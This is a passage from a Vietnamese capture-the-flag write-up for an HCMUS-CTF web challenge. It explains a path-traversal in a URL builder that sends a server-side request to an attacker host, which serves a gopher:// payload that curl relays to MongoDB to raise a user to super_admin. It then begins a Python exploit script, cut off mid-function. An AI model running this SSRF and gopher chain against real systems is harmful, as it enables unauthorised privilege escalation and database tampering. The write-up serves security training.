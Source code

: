 ```javascript
infoRequestBuilder(
    endpointBase: string,
    id: number | string,
    extraInfo?: string
): string {
    if (typeof extraInfo === "string") {
        return `${endpointBase}/${id}/${extraInfo}`;
    } else {
        return `${endpointBase}/${id}`;
    }
}
```

Nên khi request tới `http://localhost:80/studio/..%2f..%2fpayload%23`. `jakanMisc.makeRequest(normalizeUrl(request))` sẽ request tới `http://api.jikan.moe/v4/producers/../../payload#/full` == `http://api.jikan.moe/payload`

Mà sau khi sửa `/etc/hosts` thì `api.jikan.moe` sẽ resolve thành ip của attacker => `http://api.jikan.moe/payload` sẽ request tới server của attacker đang chứ payload gopher.

Lúc này curl sẽ thấy được payload `gopher://` của attacker và tiến hành request tới nó. Và lúc này curl sẽ gửi thẳng MongoDB Wire Protocol tới MongoDB để sửa role của `Dat2Phit` từ `admin` lên `super_admin`

Cuối cùng thì request tới `/super_admin/flag` rồi lụm thôi.

=> Flag 3: `HCMUS-CTF{Priv3SC_Thr0uGh_G0ph3r_n1c3!}`

Full chain script:

```python
# authbind --deep python3 solve.py
import requests, string, subprocess, re, time, os, multiprocessing, struct, bson
from bs4 import BeautifulSoup
from base64 import b64encode
from binascii import unhexlify
from flask import Flask, jsonify
from urllib.parse import quote

url = "http://localhost:8000"
attacker_ip = "192.168.65.254"
username = "asdasd"
password = "123123"
admin_username = "Dat2Phit"
flag_prefix = "HCMUS-CTF" 

sess = requests.Session()

sess.post(url + '/register', data={'username': username, 'password': password})
sess.post(url + '/login', data={'username': username, 'password': password})
# sess.cookies.set("session", "eyJwYXNzcG9ydCI6eyJ1c2VyIjoiYXNkYXNkIn19")
# sess.cookies.set("session.sig", "c73mBcPlQ8Ls0ATA7uKtEj2hnMY")
print(sess.cookies.get_dict())

res = sess.get(url + f'/user/{username}/edit')
soup = BeautifulSoup(res.text, 'html.parser')
user_secret = soup.find('input', {'id': 'secret'}).get('value')
print(f"[*] User secret: {user_secret}")

def changeField(field_name, guess_hash):
  sess.post(url + f'/user/{username}/edit', data={field_name: guess_hash, 'secret': user_secret})
  res = sess.get(url + f'/users?sort={field_name}')
  soup = BeautifulSoup(res.text, 'html.parser')
  users = soup.find_all('a', {'class': 'anime_title'})
  for user in users:
    if admin_username in user:
```